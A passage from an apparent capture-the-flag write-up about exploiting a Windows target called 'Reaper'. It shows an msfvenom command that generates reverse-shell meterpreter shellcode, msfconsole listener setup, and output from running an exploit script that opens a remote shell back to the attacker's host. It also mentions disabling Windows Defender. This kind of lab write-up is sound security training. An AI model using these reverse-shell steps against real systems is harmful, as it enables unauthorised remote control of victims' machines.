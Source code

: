 As the Scottish might say: "Fan' Dabi' Dozi"!

# Shellcode

I tested a reverse shell locally to make sure my exploit worked:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.245.148 LPORT=4444 -f python -v shellcode
```

I used **msfvenom** to generate the shellcode and **msfconsole** as the listener:

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set lhost 172.16.245.148
lhost => 172.16.245.148
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.245.148:4444 
[*] Sending stage (200774 bytes) to 172.16.245.149
[*] Meterpreter session 2 opened (172.16.245.148:4444 -> 172.16.245.149:54277) at 2024-06-30 15:11:01 +0100
```

> [!WARNING]
>
> I had to disabled Windows Defender in order to get my meterpreter shell working. At this point I hadn't tested it against the Reaper target, which may or may not be running an anti-malware product.

# Initial Access

I ran the final exploit against the target host:

```
python3 ./final.py 10.10.85.107 
REAPER PoC
----------
[*] Connecting to: 10.10.85.107
[*] Leaked address: 0x7ff65e5a0660
[*] Module base address: 0x7ff65e580000
[*] Sending the exploit...
```

I got a nice reverse meterpreter shell:

```
msf6 > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 > set lport 4444
lport => 4444
msf6 > set lhost 10.8.2.195
lhost => 10.8.2.195
msf6 > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.2.195:4444 
[*] Sending stage (200774 bytes) to 10.10.85.107
[*] Meterpreter session 1 opened (10.8.2.195:4444 -> 10.10.85.107:49747) at 2024-06-30 15:45:28 +0100
```

[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"